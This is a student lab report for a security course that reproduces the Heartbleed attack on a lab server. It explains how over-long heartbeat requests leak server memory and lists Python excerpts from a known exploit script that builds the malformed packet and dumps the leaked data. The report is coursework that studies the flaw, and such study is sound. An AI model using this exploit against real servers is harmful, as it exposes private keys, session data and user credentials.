 # Lab8 for CS315

## Some info...

Author: 11711918 吴烨昌

## Tasks

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.

What I have done:

1. Set up server enviroment (behind NAT)

![image-20201112202012667](image-20201112202012667.png)

2. Set up attacker enviroment (with attack.py, set ip in hosts)

   ![image-20201112202113603](image-20201112202113603.png)

3. After some requests, attack.py run out some http header like pieces.

   ![image-20201112202301318](image-20201112202301318.png)

4. After some requests, attack.py fetch some http requests having sensetive url params.

   ![image-20201112202347971](image-20201112202347971.png)

5. Get some private posts:

   ![image-20201112202724524](image-20201112202724524.png)



How it works: the Heartbleed attack is based on the Heartbeat request. This request just sends some data to the server, and the server will copy the data to its response packet, so all the data are echoed back. 



With length decreasing, it's noticed that at 22 a malformed response is returned, less than expected.

![image-20201112203149414](image-20201112203149414.png)



After upgrading, no more bytes is returned. It always returns ".F" now.



```python
def build_heartbeat(tls_ver):

    heartbeat = [

0x18,       # Content Type (Heartbeat)

0x03, tls_ver,  # TLS version

0x00, 0x29,  # Length

# Payload

0x01,       # Type (Request)

opts.len/256, opts.len%256,  # Payload length

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
```

use `build_heartbeat` to construct malicious heartbeat packet that has length longer than actual payload length, which will indicating server to return more data in memory.

``` python
def rcv_tls_record(s):

    print 'Analyze the result....'

    try:

        tls_header = s.recv(5)

        if not tls_header:

            print 'Unexpected EOF (header)' 

            return None,None,None        

        typ,ver,length = struct.unpack('>BHH',tls_header)

        message = ''

        while len(message) != length:

            message += s.recv(length-len(message))

        if not message:

            print 'Unexpected EOF (message)'

            return None,None,None

        if opts.verbose:

	        print 'Received message: type = {}, version = {}, length = {}'.format(typ,hex(ver),length,)

        return typ,ver,message

    except Exception as e:

        print "\nError Receiving Record! " + str(e)

        return None,None,None


def hit_hb(s, targ, firstrun, supported):

    s.send(hex2bin(build_heartbeat(supported)))

    while True:

        typ, ver, pay = rcv_tls_record(s)

        if typ is None:

            print 'No heartbeat response received, server likely not vulnerable'

            return ''

        if typ == 24:

            if opts.verbose:

                print 'Received heartbeat response...'

            if len(pay) > 0x29:

                if firstrun or opts.verbose:

                    print '\nWARNING: ' + targ + ':' + str(opts.port) + ' returned more data than it should - server is vulnerable!'

                if opts.rawoutfile:

                    rawfileOUT.write(pay)

                if opts.extractkey:

                	return pay

                else:

	                return hexdump(pay)

            else:

                print 'Server processed malformed heartbeat, but did not return any extra data.'
```

`rcv_tls_record` will return unpacked server returned data. if the length of returned data is more than expected ( or as expected ?), there is heartbleed exploit on the server. 



